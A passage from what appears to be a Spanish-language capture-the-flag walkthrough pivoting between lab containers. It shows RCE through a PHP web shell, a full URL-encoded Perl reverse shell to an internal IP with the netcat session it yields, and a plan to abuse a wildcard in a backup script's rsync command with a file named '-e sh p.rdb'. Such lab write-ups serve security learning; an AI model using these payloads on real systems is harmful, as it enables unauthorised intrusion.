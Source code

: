 Podemos ver que obtuvimos RCE de la siguiente manera: 
{% highlight bash %}
http://127.0.0.1/8924d0549008565c554f8128cd11fda4/spok.php?spok=whoami
{% endhighlight %}

Para obtener una rev-shell, tenemos que utilizar perl: 
{% highlight bash %}
http://127.0.0.1/8924d0549008565c554f8128cd11fda4/spok.php?spok=perl%20-e%20%27use%20Socket%3b$i%3d%22172.19.0.3%22%3b$p%3d9000%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22%3E%26S%22)%3bopen(STDOUT,%22%3E%26S%22)%3bopen(STDERR,%22%3E%26S%22)%3bexec(%22/bin/sh+-i%22)%3b}%3b%27
{% endhighlight %}

Con netcat obtenemos una shell en el nuevo contenedor

{% highlight bash %}
# nc -lnvp 9000
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::9000
Ncat: Listening on 0.0.0.0:9000
Ncat: Connection from 172.19.0.4.
Ncat: Connection from 172.19.0.4:41462.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
{% endhighlight %}

# TO CONTAINER THREE (AKA BACKUP)

Despues de analizar el contenedor, en el directorio backup tenemos un file .sh

{% highlight bash %}
$ cat /backup/backup.sh
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
{% endhighlight %}

Se puede visualizar que se esta respaldando la base de datos con rsync, luego eliminando las carpetas www y devolviéndolas desde un host llamado backup.

Puedo explotar el comando "rsync -a * .rdb rsync: // backup: 873 / src / rdb", específicamente el carácter *. Debido a la forma que unix maneja los *, se puede crear un archivo llamado -e sh p.rdb, y eso ejecutara sh p.rdb. [La técnica se detalla aquí][unixwildcard].









[nmap]: https://github.com/nmap/nmap
[nodered]: https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/